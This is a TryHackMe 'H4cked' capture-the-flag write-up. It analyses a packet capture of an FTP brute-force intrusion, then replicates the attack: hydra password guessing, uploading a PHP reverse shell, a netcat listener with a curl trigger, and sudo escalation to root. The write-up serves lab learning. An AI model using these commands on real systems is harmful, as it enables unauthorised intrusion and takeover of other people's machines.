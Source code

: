```yaml
---
title: "TryHackMe - H4cked"
author: Nasrallah
description: ""
date: 2022-06-01 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, wireshark, ftp, bruteforce, hydra]
img_path: /assets/img/tryhackme/h4cked/
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [H4cked](https://tryhackme.com/room/h4cked) from [TryHackMe](https://tryhackme.com).

# Task1

Let's download the task file, open it with wireshark and start investigating.

![wireshark](1.png)

In the first packets of the capture, we see the attacker trying to connect to port 21, which is FTP.

![](2.png)

We see the attacker attempting to login to an ftp server trying multiple passwords with the user `jenny`. He must be using `hydra` to brute force the login.

![](3.png)

If we scrolled down through the packets we can see a successful login.

![](4.png)

To view the password, right click the packet and follow tcp stream.

![](5.png)

Scrolling down the packets, we can see the hackers own attempt after he stopped brute forcing.

![](6.png)

Right click one of those packets and follow tcp stream.

![](7.png)

Here we can see what the hacked did before exiting.

After the attacked had logged in successfully, he was in `/var/www/html` directory, uploaded a file called `shell.php`, gave it full permissions and exited after that.

We can see that he requested that file after that from his attacking machine, which gave his a reverse shell on the machine.

![](8.png)

Let's now follow the tcp stream of that reverse shell and what did the attacker do.

![](9.png)

After gaining a shell, the attacking run the command `whoami` to see what user's account he is using, and it was `www-data`.

Since he knows jenny's password, the attacker changed to that user with the command `su jenny` after stabilizing his shell with the command `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

The attacker checked jenny's permissions on the machine with the command `sudo -l`, and he found that he can run any command as root, so he simply changed the user to root with `sudo su`.

We can see after that he cloned a repo from github called `reptile`, which is a rootkit.

# Task2

The attacker has changed jenny's password, so let's replicate his steps and try to get into the machine.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.3.106 (10.10.3.106)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We see ftp on port 21 and http on port 80.

# **Foothold**

Same as the hacker, let's start brute forcing ftp server with hydra. `hydra -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.3.106 ftp`

![](10.png)

Great! We got the password, now let's download the reverse shell code the attacker used `http://pentestmonkey.net/tools/php-reverse-shell`.

Before uploading the file, we need to change the ip address to the one of our attacking machine.

Now let's login the the ftp server and upload the shell.

![](11.png)

After logging successfully, i used the command `put` to upload the reverse shell code (reverse.php), and don't forget to change permission like i did, use `chmod 777 reverse.php`.

Set up a netcat listener `nc -lvnp 1234`, and request the reverse.php file we uploaded, i used curl to do that. `curl http://10.10.10.10/reverse.php`

![](12.png)

Great! We got the reverse shell.

# **Privilege Escalation**

For this part, we saw the hacker use jenny's ability to run any command as root and change the user to root, let's do that.

First, let's run this command `python3 -c 'import pty;pty.spawn("/bin/bash")'` to stabilize our shell.

Change the user to jenny using the password found earlier, and run `sudo su` to change user to root.

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

http://pentestmonkey.net/tools/php-reverse-shell